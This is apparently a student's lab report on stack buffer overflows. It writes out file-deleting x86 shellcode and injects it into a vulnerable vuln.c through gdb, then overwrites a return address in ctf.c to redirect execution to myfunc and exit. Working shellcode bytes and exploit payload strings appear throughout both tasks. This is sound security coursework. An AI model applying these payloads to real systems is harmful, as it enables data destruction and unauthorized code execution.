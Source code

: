 *Name: Dinh Thi Thanh Vy*

*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**

![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**

Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`

Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![alt text](./image/image-13.png)

- We have the shellcode for file_del file as follows:

`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**

![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`

Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**

![alt text](./image/image-15.png)

- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:

`r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")`

![alt text](./image/image-16.png)

--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:

![alt text](./image/image-17.png)

- Change file asm to this:

![alt text](./image/image-20.png)

- Get the shellcode again, we get

`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

`r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")`

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 

`set *0xffffd69c = 0xffffd658`

**The result will be:**

![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)

- Why does the Dummyfile still here? Look back at the assembly code by using command:

`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`

![alt text](./image/image-26.png)

- continue running the program 

![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c

**Source code:**

![alt text](./image/image-30.png)

**Summarizing**

-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:

`p=0x04081211; q=0x44644262`

`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`

= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`

**Run the virtual environment by docker file**

![alt text](./image/image-32.png)

**Debug ctf.c and create ctf.out file:**

`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./image/image-32.png)

**Get the address of the myfunc function by this command:**
`objdump -d ctf.out|grep myfunc`

![alt text](./image/image-33.png)

--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

![alt text](./image/image-34.png)

--> It's not understand and stop running with the debug `0x61616161 in ??`

--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`

![alt text](./image/image-35.png)

--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

![alt text](./image/image-36.png)

--> We've done this lab

**Stack frame:**

![alt text](./image/image-29.png)
